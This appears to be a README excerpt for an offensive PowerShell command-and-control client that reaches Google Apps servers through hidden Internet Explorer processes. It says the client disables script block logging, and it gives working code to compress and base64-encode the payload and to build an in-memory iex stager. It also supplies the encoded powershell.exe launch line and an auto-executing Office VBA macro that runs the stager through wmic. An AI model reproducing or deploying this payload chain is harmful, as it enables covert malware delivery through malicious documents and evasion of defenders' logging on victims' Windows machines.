 ## Client Support

![Windows-Tested](https://img.shields.io/static/v1?label=Windows%20%28Tested%29&message=10%2C%207&color=success&logo=windows&style=flat-square&logoColor=cyan) ![Windows-Untested](https://img.shields.io/static/v1?label=Windows%20%28Untested%29&message=8%2C%20Vista%2C%20XP%2c%20Windows%20Server%20%28any%29&color=important&logo=windows&style=flat-square&logoColor=cyan)

## Deployment Notes

- Since PowerShell is an interpreted language, `client.ps1` is written to limit payload size.
- The client uses the [InternetExplorer COM Interface](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752084(v%3Dvs.85)) in PowerShell to create hidden InternetExplorer processes that reach out to the Google Apps Servers in the background.
- The client disables _<u>process local</u>_ PowerShell script block logging using the technique outlined [here](https://cobbr.io/ScriptBlock-Logging-Bypass.html) first before continuing client execution.
- Add your Google Apps Server URLs to the `$SRV` array variable in `client.ps1`. The client will cycle through the array to load balance server connections.
- Run the following PowerShell to generate a payload:

```powershell
# read in UTF8 encoded file data
$utf8 = [system.io.file]::readallbytes('<path to client.ps1>');
$text = [system.text.encoding]::utf8.getstring($utf8);
# compress payload into one line
$text = $text.replace("  ","").replace("`n","").replace("`r","");
$bytes = [system.text.encoding]::utf8.getbytes($text);
# compress unicode payload using gzip
$buf = new-object system.io.memorystream;
$gzip = new-object system.io.compression.gzipstream(
    $buf,
    [system.io.compression.compressionmode]::compress);
$gzip.write($bytes, 0, $bytes.length);
$gzip.close();
# base64 encode compressed payload
[system.convert]::tobase64string($buf.toarray());
$buf.close();
```

- Copy the above base64 encoded payload and paste it into the following script and replace `<PAYLOAD>`:

```powershell
$d=[system.convert]::frombase64string("<PAYLOAD>");
$m=new-object system.io.memorystream;
$m.write($d,0,$d.length);
$m.seek(0,0)|out-null;
$z=new-object system.io.compression.gzipstream($m,[system.io.compression.compressionmode]::decompress);
$s=new-object system.io.streamreader($z);
iex($s.readtoend())
```

- Save the previous script with your `<PAYLOAD>` as `stager.ps1` and run the following PowerShell:

```powershell
# read in UTF8 encoded file data
$utf8 = [system.io.file]::readallbytes('<path to stager.ps1>');
$text = [system.text.encoding]::utf8.getstring($utf8);
# compress stager into one line
$text = $text.replace("`n","").replace("`r","");
# convert from UTF8 to Unicode (PowerShell.exe needs base64 Unicode)
$unicode = [system.text.encoding]::convert(
    [system.text.encoding]::utf8,
    [system.text.encoding]::unicode,
    [system.text.encoding]::utf8.getbytes($text));
# output base64 stager
[system.convert]::tobase64string($unicode);
```

- Copy the base64 encoded stager and paste it into the following command by replacing `<STAGER>`:
  - More information about PowerShell obfuscation can be found [here](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1492186586.pdf)

```
powershell.exe -eNc <STAGER>
```

- If you are looking for a VBS macro for embedding your payload into a Microsoft Office document, here is one that uses the same `<STAGER>` from the previous steps:

```vbscript
Private Sub run()
  Dim cmd As String
  cmd = "wmic process call create 'powershell.exe -eNc <STAGER>'"
  Set sh = CreateObject("WScript.Shell")
  res = sh.run(cmd,0,True)
End Sub
Sub AutoOpen()
  run
End Sub
Sub AutoExec()
  run
End Sub
Sub Auto_Open()
  run
End Sub
Sub Auto_Exec()
  run
End Sub
```

- Here are some fun PowerShell test commands :wink::

```powershell
(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom');
$e=new-object -com internetexplorer.application;
$e.visible=$true;
$e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');
```

